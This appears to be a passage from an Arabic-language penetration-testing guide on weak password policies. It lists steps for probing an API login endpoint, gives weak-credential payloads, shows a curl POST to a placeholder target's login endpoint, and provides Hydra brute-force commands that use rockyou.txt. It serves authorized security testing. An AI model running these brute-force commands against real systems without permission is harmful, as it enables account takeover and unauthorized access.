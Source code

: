 
## **المحاولة السابعة: اختبار نقاط API لمعالجة كلمات المرور الضعيفة**
**الهدف**: نشوف إذا كان API الموقع (لو موجود) بيسمح بكلمات مرور ضعيفة أو بيتخطى قيود المحاولات.
- **الخطوات**:
  1. حدد نقاط API (مثل `/api/login`) من الوثائق أو خريطة الموقع في Burp Suite.
  2. أرسل طلبات تسجيل دخول للـ API بكلمات مرور ضعيفة.
  3. اختبر قيود المحاولات أو القفل في الـ API.
  4. استخدم أدوات زي Postman أو cURL عشان تؤتمت الطلبات.
- **البيانات اللي هنجربها**:
  - JSON:
    ```json
    {"username": "admin", "password": "password"}
    ```
  - بيانات نموذج: `username=admin&password=123456`
- **النتيجة المتوقعة**:
  - نجاح: الـ API بيقبل كلمات مرور ضعيفة أو مافيش قيود.
  - فشل: الـ API بيفرض نفس الحماية زي واجهة الويب.
- **الأدوات**:
  - **Postman**: أرسل طلبات API.
  - **cURL**:
    ```bash
    curl -X POST -H "Content-Type: application/json" -d '{"username":"admin","password":"password"}' https://target.com/api/login
    ```
  - **Burp Suite**: اعترض واختبر طلبات API.
- **الأوامر**:
  - cURL: `curl -X POST -H "Content-Type: application/json" -d '{"username":"admin","password":"password"}' https://target.com/api/login`

---

## **ملخص شامل لكل المحاولات والأوامر**

هنا قائمة بكل المحاولات مع الأوامر والأدوات الخاصة بيها لاختبار سياسات كلمات المرور الضعيفة:

1. **اختبار يدوي بكلمات مرور ضعيفة**:
   - **البيانات**: `password`، `123456`، `qwerty`، `Password1`، `admin`، إلخ.
   - **الأداة**: متصفح.
   - **الأمر**: مفيش؛ اكتب يدويًا في النموذج.

2. **اختبار سياسة كلمات المرور أثناء إنشاء الحساب**:
   - **البيانات**: `a`، `123`، `password`، `aaaaaa`، `qwerty`، `11111111`.
   - **الأدوات**: DevTools، Burp Suite.
   - **الأمر**:
     - **POST /register**
     - **Host**: target.com
     - **Content-Type**: application/x-www-form-urlencoded
     - **Body**: username=test&password=123&email=test@example.com

3. **Brute Force بـ Hydra**:
   - **البيانات**: `rockyou.txt` أو قائمة مخصصة (`password`، `123456`، إلخ).
   - **الأداة**: Hydra.
   - **الأوامر**:
     ```bash
     hydra -l admin -P passwords.txt target.com http-post-form "/login:username=^USER^&password=^PASS^:F=incorrect"
     ```
     ```bash
     hydra -L usernames.txt -P passwords.txt target.com http-post-form "/login:username=^USER^&password=^PASS^:F=incorrect"
     ```
